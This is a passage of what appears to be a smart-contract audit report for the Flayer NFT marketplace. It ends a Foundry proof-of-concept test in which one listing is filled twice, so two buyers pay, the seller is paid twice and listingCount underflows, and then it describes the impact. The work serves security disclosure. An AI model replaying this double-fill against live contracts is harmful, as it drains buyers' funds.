 ```solidity
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = _tokenId;


        Listings.FillListingsParams memory fillListings = IListings.FillListingsParams({
            collection: address(erc721a),
            tokenIdsOut: tokenIdsOut
        });
        listings.fillListings(fillListings);
        vm.stopPrank();

        // Confirm User C is now owner of the token
        assertEq(erc721a.ownerOf(_tokenId), userC);

        // Confirm User C spent 1.2 collection tokens to buy
        uint256 endBalanceUserC = token.balanceOf(userC);
        console.log("User C End Bal", endBalanceUserC);

        // Confirm User B has lost ~1.2 collection tokens
        uint256 endBalanceUserB = token.balanceOf(userB);
        console.log("User B End Bal", endBalanceUserB);

        // Confirm User A has been paid difference between listingPrice & floor twice (approx 1.4x floor despite listing a 1.2)
        uint256 endBalanceUserA = token.balanceOf(userA);
        uint256 escrowBalUserA = listings.balances(userA, address(token));
        console.log("User A End Bal", endBalanceUserA);
        console.log("EscBal User A ", escrowBalUserA);

        // Confirm listing count decremented twice causes underflow
        uint256 listingCountEnd = listings.listingCount(address(erc721a));
        console.log("Listing count end", listingCountEnd);
    }
```

## Impact
This series of actions has the following effects on the users involved:
- User A gets paid the difference between their listing price and floor price twice (during both User B and User C's purchases)
- User B pays the full price of the token from User A but does not get the NFT
- User C pays the full price of the token from User A and gets the NFT

Additionally during this process `listingCount[_collection]` gets decremented twice, potentially leading to an underflow as the value is changed in an `unchecked` block. This incorrect internal accounting can later cause issues if `CollectionShutdown` attempts to sunset a collection as it's `hasListings` check when sunsetting a collection will be incorrect, potentially sunsetting a collection while listings are still live.

## Code Snippet
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690
